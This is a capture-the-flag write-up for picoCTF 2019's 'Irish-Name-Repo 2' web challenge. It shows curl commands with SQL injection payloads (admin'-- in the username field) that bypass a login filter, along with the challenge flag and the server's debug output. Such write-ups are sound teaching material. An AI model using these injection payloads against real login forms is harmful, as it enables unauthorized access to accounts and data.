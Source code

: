 # Irish-Name-Repo 2
Web Exploitation, 350 points

## Description:
> There is a website running at https://2019shell1.picoctf.com/problem/60775/. Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! 


## Solution: 


The website offered an admin login page:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

The solution from the [previous challenge](Irish-Name-Repo_1.md) didn't work anymore:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_2# curl "https://2019shell1.picoctf.com/problem/60775/login.php" --data "username=admin&password='+or+1=1--" && echo
<h1>SQLi detected.</h1>
```

However, attacking the `login` field instead of the `password` field allowed bypassing the authentication logic:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_2# curl "https://2019shell1.picoctf.com/problem/60775/login.php" --data "username=admin'--&password=1" && echo
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_015815e2}</p>
```

It was also possible to set the `debug` parameter in order to inspect the SQL statement:
```console
root@kali:/media/sf_CTFs/pico/Irish-Name-Repo_2# curl "https://2019shell1.picoctf.com/problem/60775/login.php" --data "username=admin'--&password=1&debug=1" && echo
<pre>username: admin'--
password: 1
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_015815e2}</p>
```

